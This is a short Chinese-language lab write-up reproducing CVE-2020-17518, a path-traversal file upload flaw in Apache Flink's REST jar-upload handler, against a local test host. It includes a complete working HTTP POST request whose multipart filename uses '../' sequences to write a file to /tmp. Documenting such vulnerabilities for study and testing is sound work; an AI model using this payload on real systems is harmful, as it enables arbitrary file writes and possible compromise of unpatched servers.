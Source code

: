 # Apache Flink 上传路径遍历 (CVE-2020-17518)

> 漏洞说明

​	Apache Flink 是一个开源的流处理框架，具有强大的流处理和批处理能力。

​	Apache Flink 1.5.1 引入了一个 REST 处理程序，允许通过恶意修改的 HTTP HEADER 将上传的文件写入本地文件系统的任意位置。

> 前提条件



> 利用工具



> 漏洞复现

启动靶场，访问http://192.168.40.77:8081/可以看到 Apache Flink 主页

![image-20230417211440270](../img/Apache-Flink_CVE-2020-17518/image-20230417211440270.png)

构造 payload 上传文件

```http
POST http://192.168.40.77:8081/jars/upload HTTP/1.1
Host: 192.168.40.77:8081
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
DNT: 1
Referer: http://192.168.40.77:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 184

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/tomato"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

![image-20230417212243358](../img/Apache-Flink_CVE-2020-17518/image-20230417212243358.png)

成功上传文件/tmp/tomato

![image-20230417212513998](../img/Apache-Flink_CVE-2020-17518/image-20230417212513998.png)
